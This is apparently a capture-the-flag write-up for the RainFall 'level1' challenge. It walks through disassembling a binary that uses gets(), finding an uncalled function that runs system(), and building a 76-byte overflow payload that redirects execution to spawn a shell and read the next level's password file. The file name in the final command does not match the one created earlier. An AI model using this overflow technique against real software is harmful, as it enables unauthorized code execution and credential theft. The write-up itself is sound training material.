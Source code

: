 # level1

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

First, execute `level1` and play with it a little:

```console
level1@RainFall:~$ ./level1
ashaiuhsoiahsioahisoaoishoiasioahsoiaoisnaoinsoiansoiansoinaiosnaoinsoihfoahsoinasoidhiuawhdowdgligalugaidgalkgdgdiasgdias
Segmentation fault (core dumped)
```

Putting a lot of crap makes `level1` segfaulting that is to say it is not protected somewhere. Let's check what is
inside this binary `level1`:

```gdb
level1@RainFall:~$ gdb level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

So, we notice several functions such as: `main`, `run`, `gets`, `fwrite` and so on. Let's have a look at `main`:

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:    push   ebp                      ; Stack frame
   0x08048481 <+1>:    mov    ebp,esp                  ; initialization.
   0x08048483 <+3>:    and    esp,0xfffffff0           ; Stack frame alignment: rounding down to the nearest multiple of 16. 
   0x08048486 <+6>:    sub    esp,0x50                 ; Create the frame of size 0x50 (decimal 80).
   0x08048489 <+9>:    lea    eax,[esp+0x10]           ; The actual buffer starts at esp+0x10 (decimal 16).
   0x0804848d <+13>:   mov    DWORD PTR [esp],eax      ; The pointer to the beginning of the pointer will be the parameter of `<gets>`.
   0x08048490 <+16>:   call   0x8048340 <gets@plt>     ; Calling `<gets>`.
   0x08048495 <+21>:   leave
   0x08048496 <+22>:   ret
End of assembler dump.
```

Well, now we know more about `main`, if you dig into `gets` you will notice that it calls `_IO_getline` - thus a prompt
waiting for you to enter something followed by `return`. But, it is not significant for us here. We notice that function
`run` is never called! To convince yourself, just put a breakpoint onto this function and run. The program run as usual.

So, let's have a look at it:

```gdb
gdb-peda$ disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; The stack frame is 0x18 (decimal 24) bytes big.
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>       ; That is interesting! It calls `system`.
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

Well, well, well. We have a call to `system` which executes code without other any checking. That's our entry point. Now
we are going to use one famous hacker technic: the *buffer overflow*.

## Exploit

In order to do so we are going to use the buffer initialize in `main`. The objectives are clear: thanks to `gets` we can
buffer overflow the `main` function and put afterwards a call to `run` (which starts at `0x08048444`).

To do so, we need to calculate the offset in order to override the `EIP` address. We are going to make it point to `run`
function. Thanks to this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) we know that the offset is of
76.

Let's create our string with 76 `A` and the address (the address is inverse because of the endianness):

```console
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
```

And give it to `level1` executable:

```console
level1@RainFall:~$ cat /tmp/level1 - | ./level1
```

> `cat [file] -` means that `cat` open the file then stdin (`-`). Why that? A shell we execute wants some input. Since
> we want to open a new shell this new shell request for a `stdin`. If not, it closes. So nothing happen. So we provide
> it a stdin buy adding `-` to `cat` command. An alternative could have been: `(python -c 'print "A" * 76 +
> "\x44\x84\x04\x08"'; cat) | ./level1`.

Finally:

```console
level1@RainFall:~$ cat /tmp/test - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
